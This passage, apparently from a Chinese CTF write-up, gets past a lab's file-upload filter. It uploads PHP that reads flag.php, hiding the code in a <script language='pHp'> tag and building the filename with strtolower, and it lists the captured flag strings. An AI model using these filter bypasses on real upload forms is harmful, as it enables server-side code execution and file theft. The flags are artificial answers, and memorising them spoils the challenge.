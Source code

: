 所以每次发送请求都要新建一个requests的session，最后得到flag如下

	flag{de19d81f-2fb9-4176-bb99-79209148630d}

---

## upload

这道题目能够上传文件，因此可以考虑构造一个php脚本获得flag.php文件的内容。查阅资料的过程中，看到许多[绕过姿势](https://xianzhi.aliyun.com/forum/mobile/read/672.html)，可以看到，本题的过滤还是很弱的。

首先直接上传了一个php脚本*1.php*如下：

``` php
<? php

$flag = fopen("../flag.php", "r") or die("unable to open flag.php");
echo fread($flag, filesize("../flag.php"));
fclose($flag);

?>
```

直接上传成功，打开后发现显示如下：

``` php
$flag = fopen("../flag.", "r") or die("unable to open flag."); echo fread($flag, filesize("../flag.")); fclose($flag); ?> 
```

可以看到，`<?`和`php`均被过滤了。

对于`<?`的过滤，可以采用如下方式绕过

	<script language="php"> ... </script>

其中php因为被过滤，可以在代码中换用大写字母绕过，代码中的“php”可以采用在代码中采用大写字幕，程序转化为小写的方式，标签中的则可以直接改为大写字母，改为`language="pHp"`。

最后上传的1.php代码如下：

``` php
<script language="pHp">

$flag = fopen("../flag.".strtolower("PHP"), "r") or die("unable to open the file!");
echo fread($flag, filesize("../flag.".strtolower("PHP")));
fclose($flag);

</script>
```

查看网页源码即可看到flag

	flag{062f8e8d-8c94-49c0-8d2f-f37f0eab31e2}